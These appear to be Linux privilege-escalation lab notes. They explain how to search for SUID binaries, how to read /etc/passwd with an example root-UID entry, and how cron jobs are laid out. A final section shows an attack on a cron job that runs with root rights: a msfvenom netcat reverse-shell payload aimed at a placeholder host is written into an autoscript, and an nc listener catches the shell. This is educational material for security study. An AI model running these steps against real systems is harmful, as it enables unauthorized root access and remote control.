 #Finding SUID Binaries

We already know that there is SUID capable files on the system, thanks to our LinEnum scan. However, if we want to do this manually we can use the command: 
```
"find / -perm -u=s -type f 2>/dev/null"
```
to search the file system for SUID/GUID files. Let's break down this command.


```find``` - Initiates the "find" command

```/``` - Searches the whole file system

```-perm``` - searches for files with specific permissions

```-u=s``` - Any of the permission bits mode are set for the file. Symbolic modes are accepted in this form

```-type f``` - Only search for files

```2>/dev/null``` - Suppresses errors 

## Understanding /etc/passwd format

The /etc/passwd file contains one entry per line for each user (user account) of the system. All fields are separated by a colon : symbol. Total of seven fields as follows. Generally, /etc/passwd file entry looks as follows:
```
test:x:0:0:root:/root:/bin/bash
```

[as divided by colon (:)]

Username: It is used when user logs in. It should be between 1 and 32 characters in length.

Password: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to computes the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".

User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
Group ID (GID): The primary group ID (stored in /etc/group file)

User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.

Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /

Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

## Format of a Cronjob

Cronjobs exist in a certain format, being able to read that format is important if you want to exploit a cron job. 

# = ID

m = Minute

h = Hour

dom = Day of the month

mon = Month

dow = Day of the week

user = What user the command will run as

command = What command should be run

For Example,
```
#  m   h dom mon dow user  command

17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
```
## Exploting cron tasks

Create a payload using: 
```
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```
launching attack from metasploit:
```
echo [MSFVENOM OUTPUT] > autoscript.sh"
```
listening in on the port we want to move on to
```
nc -lvp 8888
```





